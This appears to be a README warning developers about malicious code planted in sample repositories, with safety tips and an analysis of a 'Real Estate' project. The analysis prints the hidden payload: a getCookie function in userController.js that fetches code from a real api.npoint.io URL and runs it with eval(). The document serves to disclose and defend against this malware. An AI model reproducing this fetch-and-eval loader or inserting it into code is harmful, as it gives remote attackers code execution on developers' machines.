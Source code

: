 - Be cautious when installing packages from unknown sources.



- Always review the `package.json`, `requirements.txt`, or `setup.py` before installing.




By staying vigilant, using proper tools, and following security best practices, you can reduce the risk of falling for malicious scams or executing harmful code.



## Repositories





### 1. Real Estate Project





Located in `real_estate/` directory. The malicious payload is hidden in `real_estate/server/controllers/userController.js`.





The malware:



- Makes a request to api.npoint.io to fetch obfuscated JavaScript code



- Executes the fetched code using eval() in Node.js environment



- Located at the end of userController.js in a getCookie function:





```javascript



exports.getCookie = asyncErrorHandler(async (req, res, next) => {



const  result = await  axios.get("https://api.npoint.io/ac2916e3f543effa2edd");



eval(result.data.cookie);



})();



```
